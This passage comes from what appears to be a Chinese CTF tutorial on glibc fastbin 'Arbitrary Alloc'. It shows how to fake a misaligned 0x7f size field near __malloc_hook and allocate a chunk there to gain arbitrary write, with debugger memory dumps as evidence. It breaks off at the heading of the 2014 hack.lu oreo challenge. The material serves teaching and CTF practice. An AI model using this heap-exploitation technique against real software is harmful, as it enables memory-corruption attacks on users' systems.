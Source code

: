 0x7ffff7dd1b10 是我們想要控制的 __malloc_hook 的地址，於是我們向上尋找是否可以錯位出一個合法的size域。因爲這個程序是 64 位的，因此 fastbin 的範圍爲32字節到128字節(0x20-0x80)，如下：
```
//這裏的size指用戶區域，因此要小2倍SIZE_SZ
Fastbins[idx=0, size=0x10]
Fastbins[idx=1, size=0x20]
Fastbins[idx=2, size=0x30]
Fastbins[idx=3, size=0x40]
Fastbins[idx=4, size=0x50]
Fastbins[idx=5, size=0x60]
Fastbins[idx=6, size=0x70]
```
通過觀察發現 0x7ffff7dd1af5 處可以現實錯位構造出一個0x000000000000007f
```
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0

0x7ffff7dd1af5 <_IO_wide_data_0+309>:	0x000000000000007f
```
因爲 0x7f 在計算 fastbin index 時，是屬於 index 5 的，即 chunk 大小爲 0x70 的。

```c
##define fastbin_index(sz)                                                      \
    ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```
（注意sz的大小是unsigned int，因此只佔4個字節）


而其大小又包含了 0x10 的 chunk_header，因此我們選擇分配 0x60 的 fastbin，將其加入鏈表。
最後經過兩次分配可以觀察到 chunk 被分配到 0x7ffff7dd1afd，因此我們就可以直接控制 __malloc_hook的內容(在我的libc中__realloc_hook與__malloc_hook是在連在一起的)。

```
0x4005a8 <main+66>        call   0x400450 <malloc@plt>
 →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax

 $rax   : 0x7ffff7dd1afd

0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000

```


### 小總結
Arbitrary Alloc 在 CTF 中用地更加頻繁。我們可以利用字節錯位等方法來繞過 size 域的檢驗，實現任意地址分配 chunk，最後的效果也就相當於任意地址寫任意值。

## 2014 hack.lu oreo
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2014_hack.lu_oreo)

### 基本分析
